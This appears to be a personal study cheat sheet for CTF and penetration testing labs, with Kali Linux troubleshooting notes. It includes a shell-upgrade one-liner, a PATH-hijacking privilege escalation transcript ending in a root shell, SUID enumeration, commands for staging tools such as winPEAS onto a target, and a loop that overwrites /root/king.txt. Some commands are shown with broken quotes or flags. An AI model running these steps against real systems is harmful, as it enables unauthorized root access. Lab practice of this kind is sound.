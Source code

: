 # NOTES
STUDY MATERIAL >.&lt;

- [Uncat](#uncat)
- [SERVICES](#)
- [Tools](#)
  - [Network Scanning](#)
    - [NMAP](#)
  - [WEB DIRECTORY SCANNING](#) 
    - [GOBUSTER](#)
  - []()
  - []()
  - []()
  -   
- []()
- []()
- []()
- []()


# Uncat
MY PENTEST CHEAT SHEET AND BASIC KALI SETUP/TROUBLESHOOT COMMANDS

Linux Tools, Scripts & Services

# 

# Bash Scripts (For CTF)

$ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’  → sh to bash shell

# Exploit PATH Hijacking

matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ ls
'GCONV_PATH=.'   [setup.sh](http://setup.sh/)   tar   user.txt   value   wget-log
matt@pandora:~$ export PATH=$(pwd):$PATH
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# whoami
root

Enumeration for SUID files $ find / -user root -perm -4000 -exec ls -ldb {} ; >/tmp/suidfiles

Enumeration for user executable location $ find / -type d -maxdepth 2 -writable -exec ls -l {} + 2>/dev/null

$ find / -type d -maxdepth 2 -writable -exec ls -l {} 2> + /dev/null (THIS ONE DOSENT WORKS)
/ : Scan the entire device
-type d : Scan for directories only (No files)
-maxdepth : The max depth (subfolders) to scan
-writable : Check if current user an write in folder
-exec : Execute a command on the results returned by find ls
-l {} + : List the output in long form ( {} is placeholder for the location where result of the find command is substituted. The + at the end is used to terminate the -exec command)

$ python3 -m http.server {port} (ip before port is optional i guess) - host file to download on target system, File should be in the same folder where the hosting service is started

$ wget {ip}:port/filename

$ “curl” is more likely to read the content of files in linux whereas wget is to download the files!!!

$ curl –head {IP} - To get the header of the website..
for eg. i got “X-Backend-Server: office.paper” for 10.10.11.143 so i added this ip in /etc/hosts following with the IP like this “10.10.11.143 office.paper” and then went to search [http://office.paper](http://office.paper/) and the i got the website running which was earlier showing default apache page bcos it was not set up.

$ powershell “curl|wget” http://10.0.0.1/winPEASx64.exe -outfile winPEASx64.exe

# FOR CTF :

Finding total flags xD (ctf ezz) $ find / -name flag.txt 2> /dev/null

while true; do echo “yassk” > /root/king.txt; done &



==========================================================================================

KALI LINUX TROUBLE-SHOOTS AND BASICS

1. Unable to download or install packages using "apt-get"
    
    file path = /etc/apt/sources.list
    
    We have to uncomment 2nd source link in sources.list file to be able to use "sudo apt-get install" command.
    After uncommenting use "sudo apt-get update" to update the changes and reflect in our kali system. Then re-run the command not working
    
2. Shells
    
    echo $SHELL -  to print current shell
    
    chsh - to change the current shell.
    
    There are couple of shells in kali from which we can use, currently zsh is by default in my machine.
    
3. Update kali to latest version
    
    kali@kali:~$sudo apt update
    
    kali@kali:~$ sudo apt full-upgrade -y


# SERVICES

# Tools
## NetworkScanning
### NMAP
    


